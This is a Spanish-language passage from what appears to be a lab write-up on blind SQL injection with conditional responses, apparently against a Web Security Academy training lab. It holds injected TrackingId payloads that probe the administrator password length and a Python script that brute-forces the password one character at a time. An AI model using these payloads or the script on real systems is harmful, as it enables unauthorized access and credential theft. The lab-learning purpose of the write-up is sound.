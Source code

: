 En este caso nos pasamos poniendo que si es mayor de `50` caracteres, por lo que probaremos con un numero menor...

```mysql
' and (select 'a' from users where username='administrator' and length(password)>50)='a;
```

Y si finalmente hacemos lo siguiente veremos que la contraseña tendra `20` caracteres, ya que si ponemos `21` nos da error, por lo que `20` seria el correcto y tambien se puede comprobar poniendo un `>=`....

```mysql
' and (select 'a' from users where username='administrator' and length(password)>20)='a;
```

o

```mysql
' and (select 'a' from users where username='administrator' and length(password)>=20)='a;
```

Una vez sabiendo todo esto el script quedaria de la siguiente manera...

Yo lo llame `SQLI_Conditional_Response.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a8e00f5049e3d15802e5d13003c004f.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "BvroHPKR23vLwHzo' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                                'session': 'QPWCx6VEaIuh5N4noRLLTg5sziXnpfQ5'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if "Welcome back!" in r.text:
                                password += character
                                p2.status(password)
                                break
```